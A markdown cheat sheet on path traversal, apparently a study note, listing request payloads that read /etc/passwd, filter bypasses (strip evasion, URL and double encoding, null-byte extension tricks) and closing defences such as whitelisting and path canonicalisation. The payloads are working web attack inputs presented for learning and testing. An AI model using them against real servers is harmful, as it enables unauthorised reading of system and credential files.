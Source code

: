 # Path traversal

## General info
- ` <img src="/loadImage?filename=218.png"> `
- An attacker can request the following URL to retrieve the /etc/passwd file from the server's filesystem
- ` https://insecure-website.com/loadImage?filename=../../../etc/passwd `
- On Windows, both ../ and ..\ are valid directory traversal sequences

## Bypass defences
- elimination (strip):  `../ ` -> `....// `
  - Test: try to change the orginal request `GET /image?filename=1.jpg` to `GET /image?filename=../1.jpg`
  - If the file is loaded the code strip ../
- encode: ` %2e%2e%2f `
- double-encode: ` %252e%252e%252f `
- require to start with the expected base folder es. `/var/www/images` -> `filename=/var/www/images/../../../etc/passwd`
- require to end with an expected file extension es. `.png` -> `filename=../../../etc/passwd%00.png`
- others

## Suggestions
- Don't always trust error messages
  - GET /image?filename=/etc/passwd ---> "No such file"
    - Try to add null byte
    - Try to add null byte and extension ----> %00.png
- Combine the cases:
  - Example: ....//....//....//etc/passwd%00.jpg (strip, double-encode, null byte, whitelist exstension)
  - %252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252Fetc%252Fpasswd%252500%252Ejpg

## Defences
- Avoid passing user-supplied input to filesystem APIs
- Use two layers of defense to prevent attacks
  - Validate the user input before processing it. Ideally, compare the user input with a whitelist of permitted values. If that isn't possible, verify that the input contains only permitted content, such as alphanumeric characters only.
  - After validating the supplied input, append the input to the base directory and use a platform filesystem API to canonicalize the path. Verify that the canonicalized path starts with the expected base directory.
